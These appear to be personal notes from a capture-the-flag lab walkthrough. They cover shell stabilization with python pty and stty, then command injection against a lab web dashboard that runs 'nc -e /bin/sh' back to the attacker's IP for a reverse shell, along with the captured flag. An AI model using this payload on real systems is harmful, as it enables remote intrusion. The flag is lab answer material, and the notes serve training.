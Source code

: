 Now that we have a shell on the box, we want to stabilize our shell. For the most part, stabilizing shells is straightforward by using other utilities like python to help; however, some steps can take longer or change depending on the shell you use. The below instructions will be for bash and ZSH; any other shells or operating systems, you will need to do your research on stabilizing shells within their environment.  

Instructions found throughout this room are inspired by this fantastic blog post, [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). All credit for the techniques shown goes to ropnop.  

There are several ways to stabilize a shell; we will be focusing on using python to create a pseudo-terminal and modifying stty options. The steps are the same for all target machines, but they may differ depending on the shell or operating system used on your attacking machine.  

To begin, we will create a pseudo-terminal using python. The command can be found below.  

Syntax: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Once we have a pseudo shell, we can pause the terminal and modify stty options to optimize the terminal. Follow the steps below exactly for bash shells.  

1. `stty raw -echo`

2. `fg`

**Note****:** If you're using ZSH, you **must** combine `stty raw -echo;fg`  onto one line, or else your shell will break  

At this point, you will get your pseudo-terminal back, but you may notice that whatever you type does not show up. For the next step, you will need to type blindly.  

3. `reset`

4. `export SHELL=BASH`

For the next two steps, you will need to use the information you got from step 1. 

5. `export SHELL=BASH`

6. `export TERM=<TERMINAL>`

7. `stty rows <num> columns <cols>`


---

# Your job

## Reverse Shell

- Payload is: `nc+-e+/bin/sh+10.50.74.165+4444`.
	This tells netcat to send /bin/sh command line to your IP and port. Putting this into the RCE, you get the following URL:
	`admin.holo.live/dashboard.php?cmd=nc+-e+/bin/sh+10.50.74.165+4444`
- Visit the URL on the browser or on Burp Suite Repeater.

	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150700382.webp]]

## Listener

- On your attacking machine open a netcat listener.

	`nc -lnvp 4444`

- On Repeater click "Send".
	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150823201.webp]]
	You got a Revers Shell.

## Stabilize shell

In this case you'll have to use `python3`.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Flag on Docker container

- On the Reverse Shell go to `www-data@555e6e40ede0:/var/www$` and run:
	`cat user.txt`

	HOLO{175d7322f8fc53392a417ccde356c3fe}


- Submit the user flag on Task 4, question 1.


**Next step:** [[Task - 15 Docker? I hardly even know her!]]
